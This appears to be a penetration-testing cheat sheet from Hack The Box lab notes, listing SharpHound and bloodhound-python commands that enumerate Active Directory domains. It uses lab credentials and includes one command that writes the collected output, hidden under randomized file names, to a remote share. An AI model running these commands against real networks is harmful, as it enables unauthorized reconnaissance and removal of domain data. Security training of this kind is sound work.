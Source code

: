 



# BloodHound

| Command                                                                                                                            | Description                                      |
| ---------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| `.\SharpHound.exe -c all --zipfilename inlanefreight_bloodhound`                                                                   | Run the SharpHound C# ingestor                   |
| `.\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames` | Randomize and hide SharpHound Output             |
| `Invoke-BloodHound -CollectionMethod all -ZipFileName ilfreight_bloodhound`                                                        | Run the SharpHound PowerShell ingestor           |
| `bloodhound-python -dc <DC> -gc <GC> -d <DOMAIN -c All -u <user>`                                                                  | Run bloodhound-python                            |
| `bloodhound-python -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -c All -dc dc01.vintage.htb`                                        |                                                  |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 -k`                               |                                                  |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 --kerberos`                       | Using BloodHound.py with Kerberos authentication |
